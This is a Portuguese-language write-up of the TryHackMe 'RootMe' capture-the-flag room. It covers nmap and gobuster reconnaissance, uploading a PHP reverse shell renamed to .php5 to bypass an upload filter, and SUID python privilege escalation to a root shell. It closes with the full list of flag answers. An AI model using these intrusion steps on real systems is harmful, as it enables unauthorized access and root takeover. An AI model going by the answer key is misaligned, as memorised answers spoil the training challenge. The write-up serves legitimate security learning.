 CTF ROOTME

Ao gerar o ip precisamos dar um nmap para ver as informacoes do ip

    sudo nmap -sS "ip"
    
verificando assim, que tinham duas portas abertas ssh 22 e apache 80 http 
para verificar a versao do apache usei o comando:

    sudo nmap -sV -p80 "ip"

apos entregar essas flags tinhamos que usar a ferramenta Gobuster com a wordlista "common.txt"

    gobuster dir -u http://10.10.136.202/ -w /usr/share/dirb/wordlists/common.txt 

assim encontrando o diretorio /panel/ ao acessar esse diretorio tinha uma opcao para enviar um arquivo, ao procurar um reverseshell para enviar um arquivo PHP encontrava-se um .php que dava acesso ao servidor, ao configurar o arquivo nao era possivel enviar um ".php" e apenas mudando para ".php5" era possivel enviar o arquivo e criando uma porta para o meu terminal

    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

ao entrar no servidor dei o seguinte comando em python:

    python -c "import pty;pty.spawn('/bin/bash')"

para acessar a raiz dei o comando:

     cd ~

encontrava-se o arquivo user.txt, ao dar cat user.txt 

    THM{y0u_g0t_a_sh3ll}

agora a gente precisava da permissao root pelas flags ele informou o SUID e ao procurar o arquivo "diferente" era possivel encontrar o 

    /usr/bin/python

ao acessar o site gtfobins procurava o python SUID e executava o comando 

    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

assim sendo possivel acessar a pasta root e capturando a ultima flag

    THM{pr1v1l3g3_3sc4l4t10n}


capturando todas as flags do desafio RootMe

FLAGS

    Flag 1: 2
    Flag 2: 2.4.29
    Flag 3: ssh
    Flag 4: /panel/
    Flag 5: THM{y0u_g0t_a_sh3ll}
    Flag 6: /usr/bin/python
    Flag 7: THM{pr1v1l3g3_3sc4l4t10n}



